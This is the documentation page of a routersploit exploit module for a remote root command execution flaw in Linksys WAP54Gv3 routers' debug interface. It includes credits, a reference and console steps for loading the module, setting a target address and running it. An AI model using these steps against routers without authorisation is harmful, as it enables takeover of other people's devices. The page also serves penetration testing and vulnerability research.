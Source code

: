# Linksys WAP54Gv3

## Description
Module exploits remote command execution in Linksys WAP54Gv3 devices.Debug interface allows executing root privileged shell commands is availableon dedicated web pages on the device.

## Authors
* Phil Purviance # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://seclists.org/bugtraq/2010/Jun/93](http://seclists.org/bugtraq/2010/Jun/93)

## Vulnerable devices
* Linksys WAP54Gv3

## Usage
```
rsf > use exploits/linksys/wap54gv3_rce
rsf (Linksys WAP54Gv3) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Linksys WAP54Gv3) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Linksys WAP54Gv3) > run
[*] Running module...
```
